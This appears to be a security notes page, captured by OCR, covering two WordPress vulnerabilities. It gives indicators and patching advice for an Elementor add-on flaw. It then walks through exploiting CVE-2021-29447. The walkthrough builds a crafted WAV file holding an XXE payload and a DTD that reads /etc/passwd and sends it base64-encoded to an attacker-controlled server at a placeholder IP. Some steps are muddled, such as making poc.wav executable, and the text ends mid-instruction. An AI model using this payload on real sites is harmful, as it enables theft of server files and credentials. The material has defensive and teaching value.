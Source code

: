 **Elementor Plus Addons <= 4.1.6 - CVE 2021-24175**

**IOCs**

* Check for new registered users with email addresses as their username
* Check for new plugins labeled wih 'wpstaff'

**Mitigation and Patching**

* Delete the plugin or deactivate it if you are unable to update
* Best practice is to update the plugin.

#### Wordpress

**CVE-2021-29447**

**Impact**

**Arbitrary File Disclosure**: The contents of any file on the host’s file system could be retrieved, e.g. _wp-config.php_ which contains sensitive data such as database credentials. **Server-Side Request Forgery (SSRF)**: HTTP requests could be made on behalf of the WordPress installation. Depending on the environment, this can have a serious impact.

**Requirements**

**Authenticated access to wordpress** **Permissions to upload to the media library**

**Exploitation**

Create a poc.wav file with the below content. Remember to put your ip and port below.

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/poc.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Create poc.dtd with the content below.Remember to put your ip and port below.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">  
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Give poc.wav execute permissions and run it

```
chmod +x poc.wav
/poc.wav
```

This will create a file called payload.wav Fire a web server and host both poc.dtd and poc.wav in it

```
php -S 0.0.0.0:PORT
```

Upload payload.wav to the media library. This will fetch the poc.dtd which in turn will retrieve the content of /etc/passwd encoded in base64 You should have the base64 encoded string appear in the web server interactive log in your command line To decode the returned base64, create a file named decode.php with below content
